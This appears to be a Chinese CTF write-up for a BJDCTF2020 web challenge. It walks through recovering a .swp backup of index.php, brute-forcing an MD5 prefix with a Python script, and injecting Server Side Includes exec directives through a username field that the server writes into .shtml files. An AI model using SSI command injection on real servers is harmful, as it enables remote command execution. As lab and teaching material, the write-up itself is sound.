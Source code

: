 源码：https://github.com/BjdsecCA/BJDCTF2020

主页面一张表单，post提交username和password

尝试sql注入无果

查看robots.txt

发现禁止访问static/secret_key.txt

![image-20250905161109292](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250905161109292.png)

访问以后发现啥也没有

源码没给信息，这时候就考虑目录扫描了。优先扫描备份，成功找到index.php.swp

网页源码如下

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";

    }else
    {
	***
    }
	***
?>
```

这里首先验证你密码的md5值前六位是不是"6d0bc1",然后将用户名的内容写进`public/".get_hash().".shtml`

首先这里写进的文件后缀是shtml

> **SHTML** 是一种特殊的 HTML 扩展，允许在网页中嵌入服务器端指令（SSI），以实现动态内容生成和页面的重复使用

所以重点是可以写入SSI(Server Side Includes)指令。其语法如下

``````html
<!--#exec cmd="ls" -->
<!--#exec cgi="/cgi-bin/access_log.cgi"-->
<!--#echo var="DOCUMENT_URI" -->
<!--#include virtual="/includes/header.html" -->   包含一个相对于网站根目录的虚拟路径的文件
<!--#include file="footer.html" -->                包含一个相对于当前目录的物理路径的文件
``````

最重要就是include和exec。这里exec最为简单，直接写入要执行的系统命令就可以了。

这里本质也是一种代码注入，服务端直接将我们不安全的输入username拼接到shtml文件中

有一个问题是shtml文件名字由get_hash()产生，是随机的，我们如何预测？

其实不需要预测，当你满足第一个条件`$admin == substr(md5($_POST['password']),0,6)`时，服务器返回的响应的消息头中会有这个路径。这里提示我们能做一步就先做，或许就能拿到下一步的线索。

最后很简单，只要爆破一个指定字符串开头的md5值就可以了，代码如下：

```python
import hashlib
import random
def hash_md5(str):
    return hashlib.md5(str.encode('utf-8')).hexdigest()
def generate():
    return str(random.randint(1,10000000))
def boom(target):
    while True:
        i = generate()
        print(f"Test {i}")
        if hash_md5(i).startswith(target):
            print("Yes~")
            return
        else:
            print("NO")

if __name__ == "__main__":
    target = "6d0bc1"
    boom(target)
    """2020666"""
```

后面就是写入SSI指令，然后访问对应的shtml页面查看结果就可以。
